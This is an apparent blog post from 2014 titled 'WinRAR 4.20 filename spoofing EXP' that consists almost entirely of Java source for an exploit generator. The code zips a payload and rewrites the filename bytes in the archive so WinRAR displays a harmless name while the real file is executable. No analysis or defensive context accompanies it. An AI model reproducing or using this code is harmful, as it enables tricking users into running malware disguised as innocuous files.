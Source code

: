 title: "WinRAR 4.20文件名欺骗EXP"
date: 2014-03-30 16:52:07
tags:
id: 601
comment: false
categories:
  - 编程学习
---

<pre class="brush:java">package com.lpcdma;

import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.DataInputStream;
import java.io.DataOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

public class winrar_exp {

	static final int BUFFER = 2048;
	protected static byte[] strbyte = null;
	public static String shellcode;
	public static String viewname;

	public static boolean zip(String srcFile) {

		try {
			BufferedInputStream origin = null;
			FileOutputStream dest = new FileOutputStream("d:\\EXP.zip");
			ZipOutputStream out = new ZipOutputStream(new BufferedOutputStream(
					dest));
			byte data[] = new byte[BUFFER];
			File f = new File(srcFile);

			FileInputStream fi = new FileInputStream(f);
			origin = new BufferedInputStream(fi, BUFFER);
			ZipEntry entry = new ZipEntry(f.getName());
			out.putNextEntry(entry);
			int count;
			while ((count = origin.read(data, 0, BUFFER)) != -1) {
				out.write(data, 0, count);
			}
			origin.close();

			out.close();
		} catch (Exception e) {
			e.printStackTrace();
		}
		return true;
	}

	public static void fileCreate(byte[] data) throws IOException {
		String pngFilePathName = shellcode+".zip";
		FileOutputStream out = new FileOutputStream(pngFilePathName);

		BufferedOutputStream buffout = new BufferedOutputStream(out);
		DataOutputStream dataout = new DataOutputStream(buffout);
		for (int j = 0; j &lt; data.length; j++) {
			dataout.write(data[j]);
		}
		dataout.close();
		System.out.println(pngFilePathName);

	}

	public static void main(String[] args) {

		if (args.length &lt; 2) {
			System.out.println("Usage:");
		}

		shellcode = args[0];
		viewname = args[1];
		System.out.println(args[0] + args[1]);

		zip(shellcode);
		try {
			FileInputStream in = new FileInputStream("D:\\EXP.zip");
			DataInputStream din = new DataInputStream(in);
			int length;
			try {
				length = din.available();
				byte[] data = new byte[length];
				din.read(data);
				fileCreate(ArrayUtil.arrayReplace(data, shellcode.getBytes(),
						viewname.getBytes(), data.length - 100));
				din.close();
			} catch (IOException e) {
				// TODO Auto-generated catch block
				e.printStackTrace();
			}

		} catch (FileNotFoundException e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
	}

}</pre>